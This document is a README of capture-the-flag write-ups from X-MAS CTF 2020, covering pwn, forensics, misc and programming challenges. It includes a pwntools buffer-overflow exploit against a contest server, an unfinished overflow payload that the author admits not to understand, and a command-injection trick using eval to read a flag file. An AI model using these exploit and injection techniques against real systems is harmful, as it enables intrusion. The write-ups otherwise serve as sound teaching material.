

# xmas-ctf-2020

## Pwn - Do I know you?

*You walk on the street. This guy seems to recognize you. What do you do?*

**Target:** nc challs.xmas.htsp.ro 2008
**Author:** Th3R4nd0m

### Solution

Running the provided binary through Ghidra, we can see the decompiled code:

```c
{
  long in_FS_OFFSET;
  char local_38 [32];
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there. Do I recognize you?");
  gets(local_38);
  if (local_18 != 0xdeadbeef) {
    puts("Nope.....I have no idea who you are");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("X-MAS{Fake flag. You\'ll get the real one from the server }");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

and see that it's clearly a buffer overflow. By filling up `local_38` with 32 characters, we can then keep writing and overflow into `long_18` and as long as it is `0xdeadbeef` it'll print the flag! The key realization from a teammate was that `local_18` is a long, which is 8 bytes, so I needed to send `0x00000000deadbeef`. Here's his solution:

```python
from pwn import *
key = pack(0x00000000DEADBEEF, 64)
sock=remote('challs.xmas.htsp.ro', 2008)
res = sock.recv(4096,timeout=1)
print(res)
line = b'A' * 32 + key
print('sending: ', line)
sock.sendline(line)
sock.interactive()
```


## Pwn - Naughty

### Solution

```c
undefined8 FUN_00400637(void)

{
  char local_38 [46];
  short local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_a = -0x1b01;
  puts("Tell Santa what you want for XMAS");
  fgets(local_38,0x47,stdin);
  puts("Nice. Hope you haven\'t been naughty");
  if (local_a != -0x1b01) {
    puts("Oh no....no gifts for you this year :((");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return 0;
}
```

```
payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xff\xe4AAAAAA'
[+] Starting local process './naughty': pid 3906
[*] Switching to interactive mode
[*] Process './naughty' stopped with exit code 0 (pid 3906)
Tell Santa what you want for XMAS
Nice. Hope you haven't been naughty
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xff\xe4AAAAAAA'
[+] Starting local process './naughty': pid 3909
[*] Switching to interactive mode
Tell Santa what you want for XMAS
Nice. Hope you haven't been naughty
[*] Got EOF while reading in interactive
$ 
[*] Process './naughty' stopped with exit code -11 (SIGSEGV) (pid 3909)
[*] Got EOF while sending in interactive
```

This is a ROP chain, `local_38` is size 46, but we can write `0x47` or 71 bytes. We can beat the buffer overflow check by writing 46 characters and then `0xe4ff` `(-0x1b01)` and then...something to exploit the ROP chain, idk though

## Forensics - Conversation

*Due to our company's strict policy, all chatting websites have been blocked. We have been informed that some of our employees managed to circumvent all our limitations and have a secret conversation - can you find out what they've talked about?*

**Author:** yakuhito

### Attachments

conversation.pcapng

### Solution

* Filtered on `data && tcp`, then followed the TCP stream

```
Hello there, yakuhito
Hello, John! Nice to hear from you again. It's been a while.
I'm sorry about that... the folks at my company restrict our access to chat apps.
Do you have it?
Have what?
The thing.
Oh, sure. Here it comes:
JP1ADIA7DJ5hLI9zpz9gK21upzgyqTyhM19bLKAsLI9hMKqsLz95MaWcMJ5xYJEuBQR3LmpkZwx5ZGL3AGS9Pt==
Doesn't look like the thing
A guy like you should know what to do with it.
May I get a hint? :)
rot13
Got it. Thanks.
```

* Setting up a rot13 shell alias from here: https://stackoverflow.com/questions/5442436/using-rot13-and-tr-command-for-having-an-encrypted-email-address

```bash
❯ echo -n "JP1ADIA7DJ5hLI9zpz9gK21upzgyqTyhM19bLKAsLI9hMKqsLz95MaWcMJ5xYJEuBQR3LmpkZwx5ZGL3AGS9Pt==" |rot13 | base64 -d
X-MAS{Anna_from_marketing_has_a_new_boyfriend-da817c7129916751}
```


## Misc - Complaint

*Do you want to file a formal complaint? Use this address and we'll take care of redirecting it to /dev/null.*

**Target:** nc challs.xmas.htsp.ro 6004
**Author:** yakuhito

### Normal behavior

After connecting, you can supply arbitrary text, which probably gets redirected to /dev/null

```bash
❯ nc challs.xmas.htsp.ro 6004
WHAT IS BOTHERING YOU???
nothing
YOUR COMPLAINT HAS BEEN RECORDED.
```

### Solution

After connecting, we can run arbitrary bash commands and escape /dev/null like so and immediately see the flag:

```bash
❯ eval $( echo flag=$(ls -la) ); echo $flag
eval flag=total 84 
drwxr-xr-x 1 root root 4096 Dec 11 18:51 . 
drwxr-xr-x 1 root root 4096 Dec 11 18:51 .. 
-rwxr-xr-x 1 root root 0 Dec 11 18:51 .dockerenv 
drwxr-xr-x 1 root root 4096 Dec 10 01:38 bin 
drwxr-xr-x 2 root root 4096 Sep 19 21:39 boot 
drwxr-xr-x 1 root root 4096 Dec 10 01:38 chall 
drwxr-xr-x 5 root root 340 Dec 12 13:27 dev 
drwxr-xr-x 1 root root 4096 Dec 11 18:51 etc 
-r--r--r-- 1 root root 36 Dec 10 01:00 flag.txt 
drwxr-xr-x 2 root root 4096 Sep 19 21:39 home 
drwxr-xr-x 1 root root 4096 Nov 17 00:00 lib 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 lib64 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 media 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 mnt 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 opt 
dr-xr-xr-x 281 root root 0 Dec 12 13:27 proc 
drwx------ 2 root root 4096 Nov 17 00:00 root 
drwxr-xr-x 3 root root 4096 Nov 17 00:00 run 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 sbin 
drwxr-xr-x 2 root root 4096 Nov 17 00:00 srv 
dr-xr-xr-x 13 root root 0 Dec 11 15:20 sys 
drwxrwxrwt 1 root root 4096 Dec 12 13:44 tmp 
drwxr-xr-x 1 root root 4096 Nov 17 00:00 usr 
drwxr-xr-x 1 root root 4096 Nov 17 00:00 var
```

Unfortunately, it wasn't so simple to read it... I couldn't find `cat`, `head`, or `less`.

```bash
❯ eval $( echo flag=`cat flag.txt`); echo $flag
sh: 1: cat: not found
```

Printing out `$PATH`, 

```bash
❯ eval $( echo flag=$(echo $PATH) ); echo $flag 
eval flag=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then, poking around to see what was available, I found diff

```bash
❯ eval $(echo flag=$(diff flag.txt .dockerenv)); echo $flag
eval flag=1d0 < X-MAS{h3ll0_k4r3n-8819d787dd38a397}
```

Python script to do this

```python
from telnetlib import Telnet

with Telnet('challs.xmas.htsp.ro', 6004) as tn:
    while True:
        line = tn.read_until(b"\n")
        print(line)
        if b'WHAT IS BOTHERING YOU???' in line:
            break

    cmd = bytearray()
    cmd += b"eval $(echo flag=$(diff flag.txt .dockerenv)); echo $flag\n"

    tn.write(cmd)

    while True:
        line = tn.read_until(b"\n")
        print(line)
        if b'YOUR COMPLAINT HAS BEEN RECORDED' in line:
            break
```

## Misc - Bobi's Whacked

*Warm socks and warm wine, so the caption said.*

**Author:** Bobi

### Solution

* On the YouTube channel Bobi's wHack - https://www.youtube.com/c/BobiswHack/about, the about section contained a string: "6D6964646C6570617274"

Hex decoding that resulted in: "middlepart"

* Searching his channel for "X-MAS" results in two videos. It's hidden in the transcript of the first video!


* Similarly, in his third video about HackTheBox Forest, there's a transcript `_congrats}`

So altogether, `X-MAS{nice_thisisjustthefirstpartmiddlepart_congrats}`

## Misc - Whispers of Ascalon

*The one who bears the Magdaer shall curse his people forever after.*

**Author:** Bobi


### Solution

Googling around the prompt, we learn that Magdaer and Ascalon have something to do with Guild Wars. We can find their alphabet here: https://wiki.guildwars2.com/wiki/New_Krytan to easily decode the message.

`X-MAS{gw2myfavoritegame}`

## Misc - PMB

*The Python Math Bank is renowed for its 'choose your interest' plans.  Unfortunately, it also collaborates with law enforcement - can you get  your ransom payment out?*

 **Target:** nc challs.xmas.htsp.ro 6002
 **Author:** yakuhito

### Solution

Starting with $1000, we need to end up with $10 million without ever going above 0 balance after 4 compounding iterations - this leads directly to an imaginary number! (E.g. a negative interest rate would cycle back to positive after 2 compounding iterations)

```
└─$ nc challs.xmas.htsp.ro 6002
#########################
#  _____  __  __ ____   #
# |  __ \|  \/  |  _ \  #
# | |__) | \  / | |_) | #
# |  ___/| |\/| |  _ <  #
# | |    | |  | | |_) | #
# |_|    |_|  |_|____/  #
#                       #
#########################
Welcome to our hacker-friendly terminal service!
This program is a part of our 'friendlier products for hackers' initiative.
Please select an action:
1. Open account
2. Report account
*you select 1*
That's great! As you probably know, our bank provides anonymous choose-your-interest-rate accounts.
Please keep in mind that the interest rate can be *any* number as long as its modulus is less than 100.
Interest: 10j
Creating your account...
*your account has been created*
Received $1000 with attached note: 'ransom payment'
Balance: $1000
*request money withdrawal*
*error: your account must be at least 4 months old*

Month 1
-------
Balance: $10000j
Your account has been reported by an anonymous user. CIA confiscated your funds.
Balance: $10000j

Month 2
-------
Balance: $-100000.0
Your account has been reported by an anonymous user. FBI confiscated your funds.
Balance: $-100000.0

Month 3
-------
Balance: $(-0-1000000j)
Your account has been reported by an anonymous user. INTERPOL confiscated your funds.
Balance: $(-0-1000000j)

Month 4
-------
Balance: $10000000.0
*you want to buy a flag for $10 million*
GG!
X-MAS{th4t_1s_4n_1nt3r3st1ng_1nt3r3st_r4t3-0116c512b7615456}
```

## Misc - Krampus' Lazer Tag

*You've fallen into Krampus' trap again... Let's see how you will found your way out this time.*

*Note: The room is 1x1 units in size.*
*Krampus' position x∈(0,0.3), y∈(0,1)*
*Player's position x∈(0.8,1), y∈(0,1)*

**Target:** nc challs.xmas.htsp.ro 6005
**Author:** Livian

### Normal behavior

*You have fallen into Krampus' trap again... but this time he has a secret weapon. He stole StyrofoamPyromaniac's LAZER*

*BAZOOKA. When you look around you also see that you and Krampus are in a square room with walls made out of perfect* 

*LAZER mirrors (they only reflect LAZERs). The floor and ceiling are made from a material that does not reflect LAZERs.*


*With the help of your LAZER knowledge you notice something weird... Krampus has the wrong beam collimator on his bazooka.*

*He is using the ELFTeK 6000, a beam collimator that uses Christmas magic to determine the middle point of the beam's* 

*length and make it converge at that point.*


*Because of plot armor, Krampus is immune to his LAZER. Desperately looking for something to get you out of this* 

*situation, you find a box of 16 ELFTeK 640 LAZER blockers, the problem is that they are only big enough to block the*

*LAZER when it has converged into a point.*


*Because Krampus has some back issues he can only hold the BAZOOKA parallel to the XY plane.*


*You have 30 seconds to put the blockers in the right place for 50 rounds.*


*You need to give the X and Y coordinates for each of the blockers separated by a comma. The blockers are separated by a new line.*

*Good luck!*

### Thought Process

The problem seems impossible at a glance - Krampus can turn and fire at any angle, with seemingly infinite possibilities. However, we can reason about the fact that infinite reflections != infinite coverage. We can draw up some stable reflection patterns to prove this to ourselves.

Furthermore, if we reason about a base case where Krampus is at (0, 0.5) and we are at (1, 0.5), the patterns we care about are similar to standing wave patterns. `n` can of course increase from 0 (a straight shot) and approach infinity (approach infinite bounces before hitting us), but notice that there are actually only 3 distinct midpoints - 2 for odd `n`'s and 1 for even `n`'s.


Of course this is a base case, but this visual is one that helped me generalize this finding. Instead of considering reflecting the laser beam, instead reflect the entire room and consider a straight laser beam. Consider the following diagram:

|             |
| :----------------------------------------------------------: |
| Given the original room at the top, reflect the whole room (positions of K, M) instead of reflecting the beam. |

The diagram on the left illustrates angles at which Krampus can shoot the laser beam at us with 0, 1, 2, 3, or 4 reflections. I haven't shown Krampus' reflections just for a clearer picture. Notice that the midpoints of these lines have a fixed x coordinate value, while the y coordinate varies. However, on the right the key realization is the 0 and 4 reflection case are, in fact, equivalent. By comparing the midpoint to that of reflecting Krampus twice "downwards" and reflecting me twice "upwards," we can see that the y coordinate values are equal! I encourage you to try and draw a couple scenarios and see that this applies when the room is reflected in the x direction and that the two directions are independent. The final solution computes the 4 possible "x" coordinate midpoints and 4 possible "y" coordinate midpoints and takes the Cartesian product to compute the 16 total midpoints!


### Solution

```python
from pwn import *

def parseKrampusLazer(sock):
    sock.recvuntil('Your position: ')
    myx = float(sock.recvuntil(',', drop=True).decode('ascii'))
    myy = float(sock.recvuntil('\n', drop=True).decode('ascii'))
    sock.recvuntil("Krampus' position: ")
    krampusx = float(sock.recvuntil(',', drop=True).decode('ascii'))
    krampusy = float(sock.recvuntil('\n', drop=True).decode('ascii'))
    print(f"Me: ({myx}, {myy}) - Krampus: ({krampusx}, {krampusy})")

    blockersX = placeBlockers(myx, krampusx)
    blockersY = placeBlockers(myy, krampusy)

    for x in blockersX:
        for y in blockersY:
            coord = str(x) + "," + str(y)
            print(coord)
            sock.sendline(coord)

def placeBlockers(me, krampus):
    return [
        (me + krampus) / 2,
        1 - (me + krampus) / 2,
        abs(me - krampus) / 2,
        1 - abs(me - krampus) / 2
    ]

sock = remote('challs.xmas.htsp.ro', 6005)
res = sock.recv(4096,timeout=1)
print(res)
sock.sendline("a")
for _ in range(50):
    parseKrampusLazer(sock)
flag = sock.recv(4096,timeout=1)
print(flag)
```

`X-MAS{Wh3n_11F3_5h0Ot5_14Z3r5_a7_y0U_28f901ab}`

## Misc - Krampus' Lair

*YOU ARE ONE OF THE BRAVEST ADVENTURERS LAPLAND HAS EVER SEEN. TODAY IS THE DAY YOU DECIDE TO TAKE ON KRAMPUS.*
*WILL YOU FIGHT? OR WILL YOU PERISH LIKE A GOBLIN?*
\> █

**Target:** nc challs.xmas.htsp.ro 6001
**Authors:** PinkiePie1189, Milkdrop

### Solution

Starts in a text adventure, but after solving it you end up in this scenario:

```
YOU ARE NOW STUCK IN THE JAIL, AND YOU MUST ESCAPE IF YOU WANT TO SEE THE
LIGHT OF DAY EVER AGAIN. YOU HAVE ACQUIRED THE FOLLOWING ITEMS:

GEM
HUNTER SNARE
CAN
TIMER
) ( (BOW SET)
  ,
 / (ARROW)
v

YOU ARE ONLY ALLOWED TO USE THE (LOWERCASE) CHARACTERS THAT MAKE UP THESE ITEMS
IN ORDER TO CRAFT A PAYLOAD AND ESCAPE THE PYTHON JAIL. GOOD LUCK!
```

NOTE: BOW SET and ARROW are decorative and do not contain allowed letters

With a quick python program to check the allowed letters against built-in python functions:

```
chr
int
iter
min
range
set
str
sum
```

That's...it. Good luck.

## Programming - Biggest Lowest

*I see you're eager to prove yourself, why not try your luck with this problem?*

**Target:** nc challs.xmas.htsp.ro 6051
**Authors:** Gabies, Nutu

### Normal behavior

So you think you have what it takes to be a good programmer?

Then solve this super hardcore task:

Given an array print the first k1 smallest elements of the array in increasing order and then the first k2 elements of the array in decreasing order.

You have 50 tests that you'll gave to answer in maximum 45 seconds, GO!

Here's an example of the format in which a response should be provided:

1, 2, 3; 10, 9, 8


Test number: 1/50
array = [1, 5, 7, 3, 1]
k1 = 4
k2 = 2

### Solution

```python
from telnetlib import Telnet
import ast

# Assume passed in tn is in this state such that it will pass bytearrays like so:
# b"Test number: 1/50\n"
# b"array = [1, 5, 7, 3, 1]\n"
# b"k1 = 4\n"
# b"k2 = 2\n"
def parseBiggestLowest(tn):
    array = []
    k1 = 0
    k2 = 0
    answer = bytearray()

    # Read in the next line, b"array = []\n"
    line = tn.read_until(b"\n")
    if b'array = ' in line:
        # Parse the bytearray into an integer array, then sort it
        array = ast.literal_eval(line.decode("utf-8").split('array = ')[1])
        array.sort()
        # Read in the next line, b"k1 = x\n"
        line = tn.read_until(b"\n")
        k1 = int(line.decode("utf-8").split('k1 = ')[1])
        # Read in the next line, b"k2 = y\n"
        line = tn.read_until(b"\n")
        k2 = int(line.decode("utf-8").split('k2 = ')[1])

    # Assemble answer of a comma separated list of first k1 elements increasing,
    # a semicolon, then a comma separated list of the last k2 elements decreasing
    for i in range(0, k1):
        answer.extend(str(array[i]).encode())
        if i != (k1 - 1):
            answer += b", "
    answer += b"; "

    for i in range(0, k2):
        index = i * (-1) - 1
        answer.extend(str(array[index]).encode())
        if i != (k2 - 1):
            answer += b", "

    answer += b"\n"
    return answer

with Telnet('challs.xmas.htsp.ro', 6051) as tn:
    while True:
        line = tn.read_until(b"\n")
        if b'Test number: ' in line:
            answer = parseBiggestLowest(tn)
            tn.write(answer)
        # Print out the flag when we're done solving
        if b'X-MAS{' in line:
            print(line)
            break
```

## Programming - Least Greatest

*Today in Santa's course in Introduction to Algorithms, Santa told us about the greatest common divisor and the least common multiple.*
*He this gave the following problem as homework and I don't know how to solve it.*
*Can you please help me with it?*

**Target:** nc challs.xmas.htsp.ro 6050
**Authors:** Gabies, Nutu

### Normal behavior

Hey, you there! You look like you know your way with complex alogrithms.
There's this weird task that I can't get my head around. It goes something like this:
Given two numbers g and l, tell me how many pairs of numbers (x, y) exist such that gcd(x, y) = g and lcm(x, y) = l
Also, i have to answer 100 such questions in at most 90 seconds.

Test number: 1/100
gcd(x, y) = 1205132912812382229206626157
lcm(x, y) = 507405546211786976638470257264809

### Solution

```python
from telnetlib import Telnet
from sympy.ntheory import factorint

def parseLeastGreatest(tn):
    answer = bytearray()

    # Read in the next line
    line = tn.read_until(b"\n")
    print(line)
    gcd = int(line.decode("utf-8").split('gcd(x, y) = ')[1])
    # Read in the next line, b"k1 = x\n"
    line = tn.read_until(b"\n")
    lcm = int(line.decode("utf-8").split('lcm(x, y) = ')[1])

    answer += str(numFactorPairsCooler(gcd, lcm)).encode()
    # answer += str(numFactorPairs(gcd, lcm)).encode()
    answer += b"\n"
    return answer

# lcm(x, y) = (x * y)/gcd(x, y)
# Given the prime factors of (x * y) and of gcd(x * y):
# x must have at least prime factors of gcd
def numFactorPairsCooler(gcd, lcm):
    return 2 ** len(factorint(lcm // gcd).keys())

def numFactorPairs(gcd, lcm):
    print("Started computering")
    factors = factorint(lcm * gcd)
    # lcmFactors = factorint(lcm)
    gcdFactors = factorint(gcd)
    # print(factors)
    # print(lcmFactors)
    # print(gcdFactors)
    for f in gcdFactors:
        factors[f] -= 2 * gcdFactors[f]
    stuff = 0
    for f in factors:
        if factors[f] != 0:
            stuff += 1
    answer = 2 ** stuff
    # print(answer)
    return answer

with Telnet('challs.xmas.htsp.ro', 6050) as tn:
    while True:
        line = tn.read_until(b"\n")
        print(line)
        if b'Test number: ' in line:
            answer = parseLeastGreatest(tn)
            tn.write(answer)
        # Print out the flag when we're done solving
        if b'X-MAS{' in line:
            print(line)
            break
        if b'That is not the correct answer!' in line:
            break
```

## Programming - Slowest Fastest

*This is an emergency, we need you to help us organize our gift building process. We're in a hurry so let's go!*

**Target:** nc challs.xmas.htsp.ro 6055
**Authors:** Gabies, Nutu

### Normal behavior

Hey, we've got a problem at the factory! As you well know we have N rooms in our factory, and in the i-th room we have v[i] gifts that have to be built.
Also, at the factory we have N mechagnomes of two possible types:
		K of them are the Fast-O-Bot type, which can build P gifts in a single day
        The rest of N - K bots are the Speed-O-Tron type which can build Q gifts in a single day.

Each day a mechagnome is assigned to a room, and that day it'll work all by itself in that room, building as many gifts as it can.
If there are no gifts to be built or he finishes all of them before the end of the day, the mechagnome goes idle. There cannot be two mechagnomes in the same room in the same day.
Since we're in a hurry, we need the minimum number of days we can build all gifts. Can you help us?
Just to be safe, we have to solve 100 such scenarios. We don't want to waste any time so we'll give you 60 seconds to solve everything.
Ah, and since our connection is so slow, we'll define v in the following way: v[i] = (a * v[i - 1] + c) % mod for all i = 2, n

Test number: 1/100
N = 10, K = 5
P = 137, Q = 98
v[1] = 20081, a = 92874, c = 74072, mod = 100001

### Solution

```python
from telnetlib import Telnet
from copy import copy
import math

def feedIn(n, k, p, q, v0, a, c, mod):
    slowBot = p
    fastBot = q
    numFastBots = n - k
    if p > q:
        slowBot = q
        fastBot = p
        numFastBots = k

    v = [0] * n
    v[0] = v0
    for i in range (1, n):
        v[i] = (a * v[i - 1] + c) % mod
    # return goThroughSimulation(n, numFastBots, slowBot, fastBot, copy(v))
    return minDays(n, numFastBots, slowBot, fastBot, copy(v))


def parseSlowestFastest(tn):
    line = tn.read_until(b"N = ")
    print(line)
    n = tn.read_until(b",")
    n = int(n[:-1])
    print(f"n = {n}")
    tn.read_until(b" K = ")
    k = int(tn.read_until(b"\n"))
    print(f"k = {k}")
    tn.read_until(b"P = ")
    p = tn.read_until(b",")
    p = int(p[:-1])
    print(f"p = {p}")
    tn.read_until(b" Q = ")
    q = int(tn.read_until(b"\n"))
    print(f"q = {q}")

    slowBot = p
    fastBot = q
    numFastBots = n - k
    if p > q:
        slowBot = q
        fastBot = p
        numFastBots = k

    v = [0] * n
    tn.read_until(b"v[1] = ")
    v0 = tn.read_until(b",")
    v[0] = int(v0[:-1])
    # print(f"v[0] = {v[0]}")

    tn.read_until(b"a = ")
    a = tn.read_until(b",")
    a = int(a[:-1])
    # print(f"a = {a}")

    tn.read_until(b"c = ")
    c = tn.read_until(b",")
    c = int(c[:-1])
    # print(f"c = {c}")

    tn.read_until(b"mod = ")
    mod = int(tn.read_until(b"\n"))
    # print(f"mod = {mod}")

    # Given v[0], N, compute the rest of v
    # v[i] = (a * v[i - 1] + c) % mod for all i = 2, n
    # print(f"v[0] = {v[0]}")
    for i in range (1, n):
        v[i] = (a * v[i - 1] + c) % mod
        # print(f"v[{i}] = {v[i]}")

    # print(minDays(n, numFastBots, slowBot, fastBot, v))
    # print(goThroughSimulation(n, numFastBots, slowBot, fastBot, copy(v)))
    return minDays(n, numFastBots, slowBot, fastBot, v)

def goThroughSimulation(n, numFastBots, slowBot, fastBot, v):
    days = 0
    while(v != [0] * len(v)):
        v.sort()
        days += 1
        # print(v)
        for i in range(len(v)):
            if i < n - numFastBots:
                v[i] -= slowBot
            else:
                v[i] -= fastBot
            if v[i] < 0:
                v[i] = 0

    answer = bytearray()
    answer += str(days).encode()
    answer += b"\n"
    return answer


# n rooms/bots
# k P bots, n-k Q bots
# p gifts/day for P bot
# q gifts/day for Q bot
# v[i] gifts needed in ith room
def canCompleteWork(n, numFastBots, slowBot, fastBot, v, days):
    fastBotUnits = 0
    # Assume each room has the slower bot working in it for the entire duration
    for work in v:
        work -= slowBot * days
        roomFastBotUnits = 0
        if work > 0:
            if fastBot == slowBot:
                return False
            roomFastBotUnits = math.ceil(work / (fastBot - slowBot))
        fastBotUnits += roomFastBotUnits
        if roomFastBotUnits > days:
            return False

    return fastBotUnits <= (numFastBots * days)

# Try a binary search through the number of days until we find the minimum that can complete all the work
def minDays(n, numFastBots, slowBot, fastBot, v):
    minBound = min(v) // fastBot
    maxBound = max(v) // slowBot + 1
    mid = 0

    # If the bots can complete the work in i days, try fewer days, vice versa
    # until we find the boundary between being able to complete/not complete the work
    while maxBound > minBound:
        mid = (minBound + maxBound) // 2
        # print(f"mid = {mid}")
        if canCompleteWork(n, numFastBots, slowBot, fastBot, v, mid):
            # print("true")
            maxBound = mid
        else:
            # print("false")
            minBound = mid + 1

    mid = (minBound + maxBound) // 2
    # print(mid)
    answer = bytearray()
    answer += str(mid).encode()
    answer += b"\n"
    return answer

# print(canCompleteWork(2, 1, 1, 5, [6, 1], 2))
# print(minDays(2, 1, 1, 5, [6, 1]))
# print(minDays(7, 3, 107, 111, [95056, 19876, 73969, 95875, 94902, 1495, 15801]))
# print(canCompleteWork(7, 3, 107, 111, [95056, 19876, 73969, 95875, 94902, 1495, 15801], 864))
# print(canCompleteWork(7, 3, 107, 111, [95056, 19876, 73969, 95875, 94902, 1495, 15801], 863))
with Telnet('challs.xmas.htsp.ro', 6055) as tn:
    while True:
        problem = tn.read_until(b"Test number:")
        print(problem)
        # def feedIn(n, k, p, q, v, a, c, mod):
        # print(feedIn(7, 2, 137, 210, 2769, 76090, 42886, 100001))
        answer = parseSlowestFastest(tn)
        # print(answer)
        tn.write(answer)

        line = tn.read_until(b"\n")
        print(line)
        if b'X-MAS{' in line:
            print(line)
            break
        if b'That is not the correct answer!' in line:
            print(line)
            break
```


